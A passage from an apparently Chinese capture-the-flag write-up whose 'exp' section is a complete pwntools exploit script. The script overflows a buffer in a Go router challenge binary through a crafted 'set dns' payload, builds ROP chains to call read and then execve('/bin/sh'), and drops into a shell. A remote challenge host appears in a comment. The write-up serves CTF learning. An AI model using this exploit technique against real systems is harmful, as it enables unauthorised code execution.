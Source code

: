 解决了上述问题后，能够覆盖到返回地址，基本上就是个布置ROP了，没有太多难度，需要注意golang函数调用方式，可以参考[这篇文章](https://www.jianshu.com/p/33c07f807ba9)

- exp

```python
from pwnlib.util.packing import u64
from pwnlib.util.packing import u32
from pwnlib.util.packing import u16
from pwnlib.util.packing import u8
from pwnlib.util.packing import p64
from pwnlib.util.packing import p32
from pwnlib.util.packing import p16
from pwnlib.util.packing import p8
from pwn import *
from ctypes import *
from Crypto.Cipher import ARC4

context(os='linux', arch='amd64', log_level='debug')
p = process("/home/zp9080/PWN/route")
# p=gdb.debug("/home/zp9080/PWN/pwn",'b *0x8049324')
# p=remote('0192d5d3be0f782ea43281dc0cf29672.3iz5.dg04.ciihw.cn',46453)
# p=process(['seccomp-tools','dump','/home/zp9080/PWN/pwn'])
# elf = ELF("/home/zp9080/PWN/pwn")
# libc=elf.libc 

#b *$rebase(0x14F5)
def dbg():
    gdb.attach(p,'b *0x4D858C')
    pause()

def set_dns(dns,ip):
    p.sendlineafter(b"Router",b"set dns " + dns + b" " + ip)

def set_route(route):
    p.sendlineafter("Router",b"set route " + route)

def exec(cmd):
    p.sendlineafter("Router",b"exec " + cmd)

p.sendline(b'cert 4ceb539da109caf8eea7')
p.sendline(b'configure')

pop_rax_rbp = 0x0000000000405368
pop_rbx = 0x0000000000461dc1
pop_rcx = 0x0000000000433347
bss = 0x006102B0
pop_rbp = 0x0000000000401030#: pop rbp ; ret
sys_read = 0x0048DB60 
leave_ret = 0x00000000004a721a
payload = b"."*0x207+p64(pop_rbp) + p64(bss)+ p64(pop_rcx) + p64(0x200) + p64(pop_rbx) + p64(0x006102B0) + p64(sys_read) + p64(leave_ret)[:5]
set_dns(payload,b'1.1.1.1')

# dbg()
p.sendlineafter("Router",b"exec ping host " +payload)

syscall = 0x004735A9 #mov  rdi, rbx;syscall
payload = p64(0) + p64(pop_rax_rbp) + p64(0x3b) + p64(0) + p64(pop_rbx) + p64(bss+0x100) + p64(syscall)
p.sendline(payload.ljust(0x100,b"\x00")+b"/bin/sh\x00")

p.interactive()

```